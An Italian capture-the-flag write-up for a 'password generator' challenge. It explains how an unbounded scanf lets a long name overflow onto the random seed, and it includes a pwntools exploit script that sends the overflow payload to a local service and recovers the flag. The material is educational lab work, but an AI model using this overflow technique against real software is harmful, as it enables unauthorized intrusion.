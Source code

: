 # Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato (ottenuto con tool come `ghidra` o `binary-ninja`) ci si accorge di una parte critica in questa sezione:

![vuln](vuln.png)

- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, e `srand(seed)` viene chiamato dopo il nostro `scanf()`, quindi overflowando il nome possiamo sostituirlo prima che venga utilizzato (se il layout di memoria lo consente).

![layout](layout.png)

Osservando il frame della funzione (con `Edit stack frame` di `ghidra`), capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed con un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili e i buffer in questione sono stati appositamente messi nell'ordine intended in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`